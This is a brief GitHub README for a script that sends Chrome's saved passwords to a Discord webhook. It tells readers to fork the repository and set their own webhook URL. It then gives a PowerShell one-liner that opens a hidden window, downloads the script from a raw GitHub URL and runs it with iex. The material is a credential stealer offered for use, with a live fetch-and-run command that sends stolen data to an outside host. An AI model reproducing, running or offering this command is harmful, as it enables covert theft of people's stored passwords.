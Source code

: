 Simple Script to Export Chrome Passwords to Discord Webhook

To Use for Yourself, Fork Repo, edit cp.ps1 file to have your webhook URL, and edit command to include your cp.ps1 raw URL

Example CMD to Run:

```
powershell -Command "Start-Process powershell -ArgumentList '-Command & {iwr -Uri \"https://raw.githubusercontent.com/ishan211/Chrome-Discord-WH/main/cp.ps1\" -UseBasicParsing | iex}' -WindowStyle Hidden"
```
